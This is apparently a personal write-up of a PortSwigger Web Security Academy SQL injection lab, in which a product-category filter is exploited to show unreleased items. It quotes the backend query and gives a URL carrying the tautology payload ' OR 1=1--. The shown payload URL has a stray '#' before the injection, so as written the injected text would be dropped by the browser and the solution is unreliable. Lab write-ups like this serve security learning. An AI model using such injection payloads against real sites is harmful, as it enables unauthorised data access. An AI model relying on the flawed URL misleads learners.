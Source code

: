 [Source](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)
## Challenge
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application executes a SQL query similar to the following:
```SQL
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
To solve the challenge, perform a SQL injection attack that will cause the application to display one or more unreleased products.
## Solution
Go to the website page
![[Pasted image 20241130140538.png]]
Select any category and look at the `URL` of the page
![[Pasted image 20241130140700.png]]
```URL
https://web-security-academy.net/filter?category=Accessories
```
To display all products, you need to supplement the `URL` like this:
```URL
https://web-security-academy.net/filter?category=Accessories# ' OR 1=1--
```
![[Pasted image 20241130140829.png]]